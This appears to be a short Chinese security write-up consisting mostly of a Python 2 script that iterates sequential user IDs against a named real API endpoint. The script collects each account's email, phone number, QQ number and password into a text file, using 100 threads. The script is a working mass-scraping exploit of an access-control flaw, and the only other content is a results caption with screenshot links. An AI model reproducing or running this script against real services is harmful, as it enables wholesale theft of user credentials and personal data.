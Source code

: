 ```python
#!/usr/bin/env python
# _*_ coding: utf-8 _*_ 
# author=Hydra_Tc
# create=20150227

import os
import json
import random
import requests
import threadpool as tp

def baopo():
    flag = 0
    userid = 0
    while True:
        flag += 1
        userid += 1
        data = {'userid' : userid,}
        api_url = 'http://App.hixiaoyou.com/User/Me/getuserinfo'
        my_string = "userid"
        try:
            print '[%s] Test Userid: %s' % (flag, userid)
            req = requests.post(api_url, data=data, timeout=5)
            req_id = json.loads(req.content)['userid']
            req_mail = json.loads(req.content)['email']
            req_mobile = json.loads(req.content)['mobile']
            req_qq = json.loads(req.content)['QQ']
            req_pass = json.loads(req.content)['password']
        except:
            req_status = 0
        if my_string in req.json():
            success_f = open('./success_user1.txt', 'a+')
            success_f.write('%s--%s--%s--%s--%s\n'%(req_id,req_qq,req_mobile,req_mail,req_pass))
            success_f.close()

                      
if __name__ == '__main__':
    baopo()
    pool = tp.ThreadPool(100)
    reqs = tp.makeRequests(baopo)
    [pool.putRequest(req) for req in reqs]
    pool.wait()
```

结果如下


![img](http://p0.qhimg.com/t017bf76ef8380f3f14.png)


![img](http://p0.qhimg.com/t017e83dbd23a2845c2.png)
